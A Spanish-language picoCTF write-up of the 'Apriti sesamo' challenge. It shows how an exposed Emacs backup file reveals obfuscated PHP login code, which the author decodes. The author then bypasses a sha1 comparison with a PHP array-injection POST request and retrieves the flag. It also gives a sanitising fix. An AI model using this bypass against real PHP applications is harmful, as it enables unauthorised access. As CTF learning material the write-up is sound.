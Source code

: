 ```yaml
---
title: Apriti sesamo
date: 2025-07-24 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, explotación web, php array injection]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>Apriti sesamo
Author: Junias Bonou
Description
I found a web app that claims to be impossible to hack! Try it here!
{: .prompt-tip }

Entras al sitio web indicado y te encuentras un formulario 

``` html
 _               _         _  __                                       
| |             (_)       (_)/ _|                                      
| | ___   __ _   _ _ __    _| |_   _   _  ___  _   _    ___ __ _ _ __  
| |/ _ \ / _` | | | '_ \  | |  _| | | | |/ _ \| | | |  / __/ _` | '_ \ 
| | (_) | (_| | | | | | | | | |   | |_| | (_) | |_| | | (_| (_| | | | |
|_|\___/ \__, | |_|_| |_| |_|_|    \__, |\___/ \__,_|  \___\__,_|_| |_|
          __/ |                     __/ |                              
         |___/                     |___/                               

Username:

Password:

```

Después de un buen rato testeando si podía haber algún tipo de sqli, comencé a pensar en otro tipo de inyección. En las pistas hablan de un backup, y de que el autor le gusta emacs...
Tarde un rato en caer en lo que querían estas pistas, los archivos de backup de muchos editores en GNU/Linux se llaman igual que el original seguido del símbolo **~**

Así que cambio  http://verbal-sleep.picoctf.net:49414/impossibleLogin.php por
http://verbal-sleep.picoctf.net:49414/impossibleLogin.php~

El archivo parece le mismo pero el pie del documento hay una diferencia a investigar parece PHP codificado.
``` html
<!DOCTYPE html>
<html>
<head>
    <title>Login Page</title>
</head>
<body style="text-align:center;">
    <pre>
 _               _         _  __                                       
| |             (_)       (_)/ _|                                      
| | ___   __ _   _ _ __    _| |_   _   _  ___  _   _    ___ __ _ _ __  
| |/ _ \ / _` | | | '_ \  | |  _| | | | |/ _ \| | | |  / __/ _` | '_ \ 
| | (_) | (_| | | | | | | | | |   | |_| | (_) | |_| | | (_| (_| | | | |
|_|\___/ \__, | |_|_| |_| |_|_|    \__, |\___/ \__,_|  \___\__,_|_| |_|
          __/ |                     __/ |                              
         |___/                     |___/                               


    </pre>
    <br/>
    <form action="impossibleLogin.php" method="post">
        <label for="username">Username:</label><br>
        <input type="text" id="username" name="username"><br>
        <label for="pwd">Password:</label><br>
        <input type="password" id="pwd" name="pwd"><br><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>

<?php
 if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");}else{if(sha1($yuf85e0677)===sha1($rs35c246d5)){echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));}else{echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");}}}?>

``` 

Uso una herramienta online para poner más entendible el código PHP, está me sirvió perfectamente
[https://codebeautify.org/php-beautifier#](https://codebeautify.org/php-beautifier#)
``` php
<?php
if (
    isset(
        $_POST[
            base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")
        ]
    ) &&
    isset($_POST[base64_decode("\143\x48\x64\x6b")])
) {
    $yuf85e0677 =
        $_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];
    $rs35c246d5 = $_POST[base64_decode("\143\x48\144\153")];
    if ($yuf85e0677 == $rs35c246d5) {
        echo base64_decode(
            "\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d"
        );
    } else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents(
                base64_decode(
                    "\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"
                )
            );
        } else {
            echo base64_decode(
                "\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75"
            );
        }
    }
} ?>
```
Ahora que puedo leer el código podemos destriparlo por partes y sacar todas las cadenas que contiene
``` php 
<?php
echo base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")."\n";
echo base64_decode("\143\x48\x64\x6b")."\n";
echo base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")."\n";
echo base64_decode("\143\x48\144\153")."\n";
echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d")."\n";
echo base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75")."\n";
echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75")."\n";
?>
```

Pruebo el script que he creado para ver las cadenas descodificadas.

``` shell
pablo☠office Apriti-sesamo$ php test.php
username
pwd
username
pwd
<br/>Failed! No flag for you
../flag.txt
<br/>Failed! No flag for you
```

En algunos casos las cadenas cons las mismas solo varía la codificación y se repiten una vez descodificadas, la información relevante está en el propio código, especialmente esta parte
``` php 
    $yuf85e0677 =
        $_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];
    $rs35c246d5 = $_POST[base64_decode("\143\x48\144\153")];
    if ($yuf85e0677 == $rs35c246d5) {
        echo base64_decode(
            "\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d"
        );
    } else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents(
                base64_decode(
                    "\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"
                )
            );
```
la variable **yuf85e0677** y la variable **rs35c246d5** llegan por POST, si son iguales tendrás el mensaje "<br/>Failed! No flag for you" , sin embargo si el sha1 de ambas palabras son iguales === entonces nos devuelve el contenido de flag.txt. Habíamos visto un reto donde se basaba en parte en los PDFs cuyo SHA1, colisionaba, pero esto son palabras no son archivos, encontrar una colisión de SHA-1 no debe ser posible, tiene que haber otra manera. Busco unas ideas y finalmente encuento algo que parece funcionar **PHP Array Injection**

```
POST http://verbal-sleep.picoctf.net:49414/impossibleLogin.php HTTP/1.1
host: verbal-sleep.picoctf.net:49414
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
content-length: 19
Origin: http://verbal-sleep.picoctf.net:49414
Connection: keep-alive
Referer: http://verbal-sleep.picoctf.net:49414/impossibleLogin.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username[]=&pwd[]=1
```
La idea es truncar la lógica de la función sha1 aprovechando que no hay una sanitización de las variable una vez se lee el post. 

``` html
<b>Warning</b>:  sha1() expects parameter 1 to be string, array given in <b>/var/www/html/impossibleLogin.php</b> on line <b>38</b><br />
<br />
<b>Warning</b>:  sha1() expects parameter 1 to be string, array given in <b>/var/www/html/impossibleLogin.php</b> on line <b>38</b><br />
picoCTF{w3Ll_d3sErV3d_Ch4mp_d543c99c}
```
Engañando la lógica de PHP, la función **sha1** de esta versión de PHP se trunca cuando se le envía un objeto Array, de forma que la misma devuelve Null, así que devolvió null para ambos hashes, lo que hizo que la condición null === null fuera verdadera.

flag: **picoCTF{w3Ll_d3sErV3d_Ch4mp_d543c99c}**

Esto se hubiera solucionado, sanitizando las entradas del formulario y solo aceptando strings
``` php
if(
    isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")]) &&
    is_string($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")]) &&

    isset($_POST[base64_decode("\143\x48\x64\x6b")]) &&
    is_string($_POST[base64_decode("\143\x48\x64\x6b")])
){.....
```